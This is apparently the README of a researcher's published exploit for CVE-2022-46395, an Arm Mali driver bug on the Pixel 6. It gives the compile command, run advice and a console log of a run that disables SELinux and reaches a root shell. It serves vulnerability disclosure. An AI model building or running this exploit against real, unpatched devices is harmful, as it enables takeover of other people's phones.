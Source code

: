 ## Exploit for CVE-2022-46395

The write up can be found [here](). This is a bug in the Arm Mali kernel driver that I reported in November 2022. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6 with the Novmember 2022 and January 2023 patch. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -DSHELL mali_user_buf.c mempool_utils.c mem_write.c -o mali_user_buf
```

The exploit should be run a couple of minutes after boot and is likely to have to run for a few minutes to succeed. It is not uncommon to fail the race conditions hundreds of times, although failing the race condition does not have any ill effect and the exploit as a whole rare crashes. If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_user_buf                                       
fingerprint: google/oriole/oriole:13/TQ1A.230105.002/9325679:user/release-keys
benchmark_time 357
failed after 100
failed after 200
failed after 300
benchmark_time 343
failed after 400
failed after 500
failed after 600
benchmark_time 337
failed after 700
failed after 800
failed after 900
benchmark_time 334
failed after 1000
failed after 1100
failed after 1200
benchmark_time 363
failed after 1300
finished reset: 190027720 fault: 135735849 772 err 0 read 3
found pgd at page 4
overwrite addr : 76f6100710 710
overwrite addr : 76f5f00710 710
overwrite addr : 76f6100710 710
overwrite addr : 76f5f00710 710
overwrite addr : 76f5d00710 710
overwrite addr : 76f5b00710 710
overwrite addr : 76f5d00710 710
overwrite addr : 76f5b00710 710
overwrite addr : 76f6100fd4 fd4
overwrite addr : 76f5f00fd4 fd4
overwrite addr : 76f6100fd4 fd4
overwrite addr : 76f5f00fd4 fd4
overwrite addr : 76f5d00fd4 fd4
overwrite addr : 76f5b00fd4 fd4
overwrite addr : 76f5d00fd4 fd4
overwrite addr : 76f5b00fd4 fd4
result 50
oriole:/ # 
```
